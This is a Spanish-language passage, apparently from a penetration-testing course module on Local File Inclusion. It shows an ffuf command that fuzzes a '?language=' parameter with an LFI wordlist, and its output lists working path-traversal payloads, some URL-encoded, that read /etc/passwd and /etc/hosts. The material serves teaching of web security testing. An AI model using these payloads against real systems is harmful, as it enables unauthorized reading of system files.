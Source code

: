 Una vez que identificamos un parámetro expuesto que no está vinculado a las formas que probamos, podemos realizar todas las pruebas de LFI discutidas en este módulo. Esto no es exclusivo de las vulnerabilidades de LFI, pero también se aplica a la mayoría de las vulnerabilidades web discutidas en otros módulos, ya que los parámetros expuestos también pueden ser vulnerables a cualquier otra vulnerabilidad.

**Consejo:**Para una exploración más precisa, podemos limitar nuestro escaneo a los parámetros LFI más populares que se encuentran en esto[enlace](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters).

---

# **Listas de palabras LFI**

Hasta ahora en este módulo, hemos estado elaborando manualmente nuestras cargas de LFI para probar las vulnerabilidades de LFI. Esto se debe a que las pruebas manuales son más confiables y pueden encontrar vulnerabilidades de LFI que de otra manera no se pueden identificar, como se discutió anteriormente. Sin embargo, en muchos casos, es posible que deseemos ejecutar una prueba rápida en un parámetro para ver si es vulnerable a alguna carga útil LFI común, lo que puede ahorrarnos tiempo en aplicaciones web donde necesitamos probar varias vulnerabilidades.

Hay una serie de[Listas de palabras LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)Podemos usar para este escaneo. Una buena lista de palabras es[Lfi-jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), ya que contiene varios derivaciones y archivos comunes, por lo que facilita la ejecución de varias pruebas a la vez. Podemos usar esta lista de palabras para borrar el`?language=`Parámetro que hemos estado probando en todo el módulo, como sigue:

Escaneo automático

```
xnoxos@htb[/htb]$ ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=key
 :: Wordlist         : FUZZ: /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]

```
